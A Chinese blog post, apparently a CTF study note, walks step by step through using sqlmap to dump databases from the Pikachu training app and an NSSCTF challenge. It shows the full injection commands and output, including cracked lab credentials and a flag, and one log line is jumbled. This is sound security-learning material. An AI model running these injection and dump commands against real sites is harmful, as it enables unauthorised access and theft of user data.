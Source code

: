 ```yaml
---
layout: post
title: "通过sqlmap拿下数据库"
date:   2024-9-29
tags: [SQL注入, CTF, web]
comments: true
author: MK-KM1542
---
```



有些题目sqlmap扫不出来(比如***1[极客大挑战 2019]LoveSQL 1***)
解决办法：用burpsuite抓包，将请求包放在txt文件中，使用`-r txt文件路径`

```batch
python sqlmap.py -r 请求包.txt -dbs
```

再不行就可能是题目限制了关键词`(select, union, from, where等)`的使用，慢慢审计代码吧

## 以pikachu为例

### 数据库名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -dbs
```

```python
[18:08:19] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 5.6.9, PHP
back-end DBMS: MySQL >= 5.6
[18:08:19] [INFO] fetching database names
available databases [6]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] pikachu
[*] root
[*] sys

[18:08:19] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\localhost'
```

拿到信息：

* MySQL >= 5.6
* Apache 2.4.39, PHP 5.6.9, PHP
* 数据库名
  * information_schema
  * mysql
  * performance_schema
  * pikachu
  * root
  * sys

### 当前数据库名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --current-db --batch
```

```python
[18:09:32] [INFO] fetching current database
current database: 'root'
```

拿到信息：

* 当前数据库名：root

### 列出表名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D root -tables --batch
```

~~~sql
[18:10:18] [INFO] fetching tables for database: 'root'
Database: root
[5 tables]
+----------+
| member   |
| httpinfo |
| message  |
| users    |
| xssblind |
+----------+
~~~

### 列出列名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D root -T users --columns --batch
```

```sql
[18:10:59] [INFO] fetching columns for table 'users' in database 'root'
Database: root
Table: users
[4 columns]
+----------+------------------+
| Column   | Type             |
+----------+------------------+
| level    | int(11)          |
| id       | int(10) unsigned |
| password | varchar(66)      |
| username | varchar(30)      |
+----------+------------------+
```

### 列出数据

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D root -T users -C username,password -dump --batch
```

```sql
[INFO18:12:04] cracked password '] [abc123INFO' for user '] current status: Manet... /test'
Database: root
Table: users
[3 entries]
+----------+-------------------------------------------+
| username | password                                  |
+----------+-------------------------------------------+
| admin    | e10adc3949ba59abbe56e057f20f883e (123456) |
| pikachu  | 670b14728ad9902aecba32e22fa4f6bd (000000) |
| test     | e99a18c428cb38d5f260853678922e03 (abc123) |
+----------+-------------------------------------------+
```

## [SWPUCTF 2021 新生赛]easy_sql

### 数据库名

```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -dbs
```

```sql
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] test
[*] test_db
```

### 当前数据库名

```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" --current-db --batch
```

```sql
[18:28:26] [INFO] fetching current database
current database: 'test_db'
```

### 列出表名

```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -D test_db -tables --batch
```

```sql
Database: test_db
[2 tables]
+---------+
| test_tb |
| users   |
+---------+
```

### 列出列名

```batch
D:\Desktop\sqlmap-1.8\sqlmap-1.8>python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -D test_db -T test_tb --columns --batch
```

```sql
Database: test_db
Table: test_tb
[2 columns]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| flag   | varchar(50) |
| id     | int(11)     |
+--------+-------------+
```

### 列出数据

```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -D test_db -T test_tb --C flag -dump --batch
```

```sql
[18:30:48] [INFO] fetching entries of column(s) 'flag' for table 'test_tb' in database 'test_db'
Database: test_db
Table: test_tb
[1 entry]
+----------------------------------------------+
| flag                                         |
+----------------------------------------------+
| NSSCTF{3ece377d-0b31-4ea2-9fb4-8324d7cdeb83} |
+----------------------------------------------+
```

得到flag：NSSCTF{3ece377d-0b31-4ea2-9fb4-8324d7cdeb83}

## 总结

1. 先爆数据库名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -dbs
```

2. 指定数据库名爆表名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -tables
```

3. 指定表名爆列名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users --columns
```

4. 指定列名爆数据

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users -C username,password -dump
```
